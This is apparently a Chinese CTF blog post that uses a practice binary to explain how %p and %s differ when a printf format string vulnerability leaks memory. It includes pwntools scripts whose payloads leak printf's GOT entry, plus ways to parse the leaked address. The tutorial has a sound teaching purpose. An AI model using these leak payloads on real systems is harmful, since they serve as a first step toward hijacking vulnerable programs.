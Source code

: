 ```yaml
---
layout:     post
title:      格式化字符串中的%p和%s
date:       2024-09-16
tags: [PWN,  格式化字符串]
comments: true
author: Whitea
toc: true
---
```


%p 和 %s的区别是什么？int()接收数据还是u64()接收数据？

<!-- more -->

## 前言

最近做题的时候，利用printf的格式化字符串漏洞泄露地址的时候，不知道%p和%s的区别，经过多次测试，这里做个记录

### 1. %p 和 %s的区别

我们先看看两者的区别：

- %p：输出16进制数据(**注意是小端序**)，与%x基本一样，只是附加了前缀0x，在32bit下输出4字节，在64bit下输出8字节，可通过输出字节的长度来判断目标环境是32bit还是64bit。**常用来泄露格式化参数偏移量**

- %s：输出的内容是字符串，**即将偏移处指针指向的字符串输出**，如%i$s表示输出偏移i处地址所指向的字符串，在32bit和64bit环境下一样，**可用于读取GOT表等信息。**

**补充一下：小端序是指16进制的低位数据，在栈中的位置也是处于低地址。 即 16进制低位 <-> 栈低地址**

### 2. 实例测试

这是某一道题main函数的伪代码：

```
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  char buf[264]; // [rsp+0h] [rbp-110h] BYREF
  unsigned __int64 v4; // [rsp+108h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  init(argc, argv, envp);
  while ( 1 )
  {
    read(0, buf, 0x100uLL);
    printf(buf);
  }
}
```

我们主要是关注下面这里两段，输入read()和格式化输出printf()

```
read(0, buf, 0x100uLL);
printf(buf);
```

先测试一下我们输入字符串的偏移量是多少，**一般是用 `%p` 来测试**

<div align=center><img src="../images/2024/09/16/printf1.png" alt="pwn" border="0" width="80%" height="80%"></div>

可以看到是第6位（**以16进制形式打印出栈上的数据**），所以`aaaaaaaa`会以`0x6161616161616161`的形式打印出来。

**我再说一遍，是小端序的结果打印出来，所以第一个`a`所对应的其实是最后一个`61`**。

这里还有我之前做的几个关于格式化字符串的题，建议去看看:

[BaseCTF2024-Week2-PWN](https://whitea133.github.io/BaseCTF2-Pwn/)

这这一篇文章里有两道fmt的基础题，我有讲解如何计算偏移量

现在我们用gdb调试具体看看栈的情况：

**我在read()函数执行时，输入`aaaaaaaa`**

<div align=center><img src="../images/2024/09/16/printf2.png" alt="pwn" border="0" width="80%" height="80%"></div>

**再到printf后的下一步，这时候看看栈上的情况**：

<div align=center><img src="../images/2024/09/16/printf3.png" alt="pwn" border="0" width="80%" height="80%"></div>

可以看到栈数据上的第一位是我们输入的字符串`aaaaaaaa`,所以偏移量为6 (1 + 5 = 6) 

**我们再着重关注一下栈上数据的内容：**

我们知道栈的第一个数据是`aaaaaaaa`,我们又知道刚才 **第六个**`%p`打印出的数据是 `0x6161616161616161` 

<mark>所以我们还能证明 `%p`的作用 就是以16进制的形式，按小端序来打印出对应栈上的内容(同时开头加上了0x)</mark>

**！！注意：明确的了解 %p 作用, 对于我们区分 `%p` 和 `%s` 这两者有很大的帮助**


#### 2.1 %p占位符测试

刚才上面测试出了输入数据的偏移量，还简要分析了一下`%p`的作用

**现在是正式开始测试 `%p`和 `%s`的不同**

这里我测试的脚本如下，先测试打印偏移量为6的数据：

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux')

io=process('./fmt2')
elf=ELF('./fmt2')
gdb.attach(io,'b *(0x40122b)') #printf函数前一步的断点
printf_got=elf.got['printf'] #我们要暴露got表中记录printf的地址

payload=b'%aaaa7$p' + p64(printf_got) #已知输入数据的偏移量为6
time.sleep(0.3)
io.sendline(payload)
a = io.recv()
print(a)

io.interactive()
```

我们gdb动态调试到printf函数的下一步，看看情况：

<div align=center><img src="../images/2024/09/16/printf4.png" alt="pwn" border="0" width="85%" height="80%"></div>

先看左边，printf()打印出的内容是`aaaa0x7024362561616161\x083@`

再看右边栈的数据是`0x7024362561616161` （这是偏移量为6的数据），很明显是16进制的。

而再右边的`aaaa%6$p`，这是`0x7024362561616161`16进制前的字符串内容。我们很明显可以看到前面的 `a`，它的十六进制 `61` 居然在后面，**这就是小端序的作用**

我用excel表格给大家画一下：

<div align=center><img src="../images/2024/09/16/printf5.png" alt="pwn" border="0" width="85%" height="80%"></div>

**所以我们总结一下：**

**我们输入的内容为`aaaa%6$p`,printf会进行打印。先打印完`aaaa`，当打印到`%6$p`时会触发占位符的转换，`%6$p`会被替换为偏移量为6的数据，即`0x7024362561616161`**

**所以最终的打印结果为`aaaa0x7024362561616161`**

**至于后面的`\x083@`,目前还没搞懂，但是不用管，我们知道就行，没啥影响。**

我们尝试用 `%p` 来暴露 got表的位置，看看会有什么错误（是的，%p无法用来爆got表）

`%p` 爆got表测试脚本如下：

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux')

io=process('./fmt2')
elf=ELF('./fmt2')
gdb.attach(io,'b *(0x40122b)')
printf_got=elf.got['printf']

payload=b'aaaa%7$p' + p64(printf_got) #泄露偏移量为7的数据，即printf_got
time.sleep(0.3)
io.sendline(payload)
a = io.recv()
print(a)

io.interactive()
```

结果如下：

<div align=center><img src="../images/2024/09/16/printf6.png" alt="pwn" border="0" width="85%" height="80%"></div>

可以看到左边打印出的内容是`aaaa0x403308\x083@`

其中 `0x403308`替代了占位符 `%7$p` 的位置。 观察右边就可以看到 `0x403308` 在栈中的位置

**很显然 `0x403308` 只是 printf的got表的位置。**

**而我们要的东西，是printf的got表中，记录printf函数真实地址的数据**

我们要的东西如图所示：

<div align=center><img src="../images/2024/09/16/printf7.png" alt="pwn" border="0" width="85%" height="80%"></div>

可以看到是在 `0x403308` 的右边，即 `0x403308` 指针指向的地址。

而  `%p` 只能帮我们打印出 `0x403308`。

**由此可见， `%p` 无法帮助我们改写got表的地址。**

#### 2.2 %s占位符测试

测试脚本和第一个 `%p` 的一模一样，只是把 `%p` 换成了 `%s`

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux')

io=process('./fmt2')
elf=ELF('./fmt2')
#gdb.attach(io,'b *(0x40122b)')
printf_got=elf.got['printf']

payload=b'aaaa%6$s' + p64(printf_got) #只是把%p换成%s
time.sleep(0.3)
io.sendline(payload)
a = io.recv()
print(a)

io.interactive()
```

测试结果如下：

<div align=center><img src="../images/2024/09/16/printf8.png" alt="pwn" border="0" width="85%" height="80%"></div>

发生了报错。原因是什么呢？

自己看下图：

<div align=center><img src="../images/2024/09/16/printf9.png" alt="pwn" border="0" width="85%" height="80%"></div>

因为我们知道 `%s` 是**以字符串打印出指针所指向的内容**。

这里在偏移量为6的数据，我们的指针是 `0x7324362561616161` ，它指向的内容是什么？？

**根本没有！对吧。 那你还想打印出什么东西？不报错才怪呢。**

不信？

我们修改偏移量为7，看看能不能打印出下一个数据，指针`0x403308` 所指向的内容

测试脚本如下：

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux')

io=process('./fmt2')
elf=ELF('./fmt2')
#gdb.attach(io,'b *(0x40122b)')
printf_got=elf.got['printf']

payload=b'aaaa%7$s' + p64(printf_got)
time.sleep(0.3)
io.sendline(payload)
a = io.recv()
print(a)

io.interactive()
```

结果如下：

<div align=center><img src="../images/2024/09/16/printf10.png" alt="pwn" border="0" width="85%" height="80%"></div>

**可以看到这一次成功打印出来了指针`0x403308`所指向的内容，即printf函数的真实地址`0x7522962606f0`**

但是注意，我们仔细看一下左边打印的内容。

**因为我们是按字符串格式打印出的数据，所以他是以类似 `\xf0\x06&\x96"u`这样的格式打印出来的，有些字符可能已经被转换了，如 `26` 变成了 `06&` 中的 `&`**

**这里有一个方法，我们可以观察上面的Received bytes来对照一下有没有接收无误** 

**因为我们一般要接收的东西是形如 `0x123456` 这样的地址，只有这样才方便我们用p64()进行打包发送**

那我们要怎么把 `\xf0\x06&\x96"u` 这样格式的内容变成我们想要的格式呢？

**这里我给出正确的方法：用u64()调整即可**

我们常用的句子如下：

```
function_addr = u64(io.recv(6).ljust(8,b'\x00')) 
print(hex(function_addr))
```

我们利用上述方法改写一下脚本：

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux')

io=process('./fmt2')
elf=ELF('./fmt2')
gdb.attach(io,'b *(0x40122b)')
printf_got=elf.got['printf']

payload=b'%7$saaaa' + p64(printf_got) #这里我把aaaa放在占位符后面，因为我们不需要接收aaaa
#aaaa放在占位符前面也行，只是要记得 io.recvuntil('aaaa')
time.sleep(0.3)
io.sendline(payload)

print_addr = u64(io.recv(6).ljust(8,b'\x00')) #recv(6)是接收6个字节
#因为一般的地址开头的两个字节都是00，即\x00\x00 。这里用ljust填补到8字节即可
print(hex(print_addr))
io.interactive()
```

脚本测试结果如下：

<div align=center><img src="../images/2024/09/16/printf11.png" alt="pwn" border="0" width="85%" height="80%"></div>

**完美地取到了我们想要的地址**

所有的测试完毕

### 3. 补充：不同的接收方式

对于打印出来的结果是类似 `0x123456789abc` (**一般是14个字符，包括了0x**)这样的地址

**因为这样的地址类似字符串，每一个字符都是1个字节，包括 0 和 x，所以我们全部接收的话，就要接收14个字节（不能漏掉0x）**

**我们的目的是要把这样的数据,变成数字类型的** `0x123456789abc`

我们的接收方式是:

```
addr=int(io.recv(14),16) #把0x123456789abc的内容全部接收，并字节类型为数字类型
print("addr:" + hex(addr)) #输出地址看看（16进制）
```

对于打印出来的结果是类似 `\x12\x34\x56\x78\x9a\xbc` (**一般分为6组\x，每一组一个字节**)这样的地址。

**这样的地址，前面的是低位，后面的是高位。如这里的 `\x12` 是低位，`\xbc` 是高位。 所以对应的就是 `0xbc9a78563412`**

我们要用以下方法来接收：

```
addr = u64(io.recv(6).ljust(8,b'\x00')) #把6个字节都接收了，并把 \x--\x-- 这样的地址格式变为 0x-------
print(hex(addr)) #输出地址看看（16进制）
```

注意我们最终想要利用的地址都是 `0x123456789abc` 这样的**数字类型**数据

**地址的数据都是8字节，只不过是高位的00被省略掉了而已**

## 结语

好好学，好好练
